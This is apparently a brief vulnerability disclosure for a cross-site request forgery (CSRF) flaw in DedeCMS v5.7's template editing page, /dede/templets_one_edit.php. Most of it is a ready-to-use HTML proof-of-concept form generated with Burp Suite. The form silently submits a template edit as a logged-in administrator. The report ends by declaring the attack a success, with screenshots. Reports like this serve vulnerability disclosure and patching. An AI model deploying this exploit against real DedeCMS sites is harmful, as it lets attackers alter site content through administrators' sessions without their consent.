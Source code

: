 target:https://github.com/wdsunwq/DedeCMSv5
version: v5.7

DedeCMS v5.7 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /dede/templets_one_edit.php
![1](https://github.com/777erp/cms/assets/113673221/0a7c4bd7-806c-40fe-8294-8a59e527fbf0)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/src/dede/templets_one_edit.php" method="POST">
      <input type="hidden" name="dopost" value="saveedit" />
      <input type="hidden" name="aid" value="1" />
      <input type="hidden" name="title" value="cs" />
      <input type="hidden" name="keywords" value="" />
      <input type="hidden" name="description" value="" />
      <input type="hidden" name="likeid" value="default" />
      <input type="hidden" name="oldlikeid" value="default" />
      <input type="hidden" name="likeidsel" value="default" />
      <input type="hidden" name="template" value="&#123;style&#125;&#47;singlepage&#46;htm" />
      <input type="hidden" name="oldfilename" value="a&#47;newfile1&#46;html" />
      <input type="hidden" name="nfilename" value="a&#47;newfile1&#46;html" />
      <input type="hidden" name="ismake" value="0" />
      <input type="hidden" name="body" value="123&lt;br&#32;type&#61;&quot;&#95;moz&quot;&#32;&#47;&gt;&#13;&#10;" />
      <input type="hidden" name="imageField&#46;x" value="26" />
      <input type="hidden" name="imageField&#46;y" value="10" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>



```

![2](https://github.com/777erp/cms/assets/113673221/724100c1-ed5d-431e-a75d-1289f98eafae)


Successed

![3](https://github.com/777erp/cms/assets/113673221/dde25c92-2a1e-42e5-b950-c35780541b30)

